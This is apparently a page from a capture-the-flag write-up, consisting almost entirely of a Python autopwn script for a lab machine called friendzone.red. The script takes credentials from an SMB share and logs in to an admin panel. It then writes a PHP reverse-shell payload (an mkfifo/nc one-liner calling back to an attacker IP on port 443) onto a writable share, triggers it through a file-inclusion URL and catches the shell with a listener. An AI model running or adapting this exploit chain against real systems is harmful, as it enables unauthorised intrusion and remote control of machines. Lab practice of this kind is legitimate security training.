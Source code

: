 ```python
# Variables globales
login_url = "https://administrator1.friendzone.red/login.php"
rce_url = "https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/reverse"
lport = 443

def getCreds():
    opener = urllib.request.build_opener(SMBHandler)
    fh = opener.open('smb://10.10.10.123/general/creds.txt')
    data = fh.read()
    fh.close()

    data = data.decode('utf-8')
    username = re.findall(r'(.*?):', data)[1]
    password = re.findall(r':(.*)', data)[1]

    return username, password

def makeRequest(username, password):

    urllib3.disable_warnings()

    s = requests.session()
    s.verify = False

    data_post = {
        'username': username,
        'password': password
    }

    r = s.post(login_url, data=data_post)

    os.system("mkdir /mnt/montura")
    os.system('mount -t cifs //10.10.10.123/Development /mnt/montura -o username="null",password="null",domain="WORKGROUP",rw')
    time.sleep(2)
    os.system("echo \"<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f'); ?>\" > /mnt/montura/reverse.php")
    os.system("umount /mnt/montura")
    time.sleep(2)
    os.system("rm -r /mnt/montura")

    r = s.get(rce_url)

if __name__ == '__main__':

    username, password = getCreds()

    try:
        threading.Thread(target=makeRequest, args=(username, password)).start()
    except Exception as e:
        log.error(str(e))

    shell = listen(lport, timeout=20).wait_for_connection()

    shell.interactive()
```
